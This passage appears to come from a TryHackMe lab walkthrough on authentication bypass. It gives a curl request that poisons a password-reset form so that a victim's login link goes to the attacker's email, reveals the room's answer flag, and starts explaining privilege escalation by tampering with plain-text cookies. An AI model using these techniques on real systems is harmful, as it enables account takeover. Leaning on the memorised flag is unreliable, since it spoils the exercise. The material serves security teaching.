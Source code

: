 ![](images/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of ```{username}``` @customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

```telnet
                Curl Request 2 (but using your @acmeitsupport.thm account):

user@tryhackme$ curl 'http://10.10.163.208/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

```bash
curl 'http://10.10.163.208/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=bob@customer.acmeitsupport.thm'
```

```
What is the flag from Robert's support ticket?
> THM{AUTH_BYPASS_COMPLETE}
```

## Task 5 - Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the [HTTP In Detail](https://tryhackme.com/room/httpindetail) room on task 6.

##### Plain Text
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

**Set-Cookie: logged_in=true; Max-Age=3600; Path=/**
**Set-Cookie: admin=false; Max-Age=3600; Path=/**

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.
